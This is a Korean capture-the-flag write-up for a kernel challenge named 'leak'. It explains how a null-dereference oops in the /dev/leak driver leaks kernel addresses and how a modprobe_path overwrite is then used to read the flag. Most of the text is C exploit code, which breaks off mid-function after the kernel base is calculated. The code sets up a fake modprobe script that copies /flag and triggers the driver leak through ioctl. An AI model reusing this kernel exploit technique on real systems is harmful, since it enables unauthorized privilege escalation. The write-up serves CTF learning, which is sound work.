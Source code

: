 그냥 leak 문제였다.
## Exploitation
timeout 30초 걸려있어서 커널쪽을 브포는 아주 빠르게 포기했다.
테스트하다가 유저에서의 권한 설정이 잘못된건지 null dereference가 나면 oops가 트리거되며 메모리가 릭 되었다.
rip null로 세팅하면 syscall 주소도 친절히 알려준다.
static modprobe가 안걸려있으니 modprobe aaw를 수행해서 flag를 읽는다.
```c
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <sys/wait.h>
#include <sys/mman.h>

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");
    
    system("echo '#!/bin/sh\ncp /flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");

	sleep(100); // kernel crash
    // exit(0);
}

int test_kbase(uint32_t num) {
    uint64_t usr[2];
    int dev = open("/dev/leak",O_RDWR);
    uint64_t * buf = malloc(0x200);
    memset(buf, 0x00, 0x30);
    usr[1] = buf;
    usr[0] = 0x38;
    buf[6] = 0;
    uint64_t ret = ioctl(dev, 1337, &usr); // null dref oops - leak
    if (ret == 1337){
        puts("LEAKED!!!!");
        return 99; // Successful leak
    }
    close(dev);
    return 0; // Unsuccessful
}


int main(int argc, char *argv[]){
    uint64_t stack = mmap(0x0, 0x3000, PROT_WRITE | PROT_READ,
                                  MAP_ANONYMOUS | MAP_PRIVATE, -1, 0x0);
    if (argc < 2) { // first step
        test_kbase(20); // oops rsp
        return 1; 
    }
    else { // last step
        char *hex_string = argv[1]; // get rbp
        uint64_t kbase = strtoull(hex_string, NULL, 16) - 0xd2c16c;
```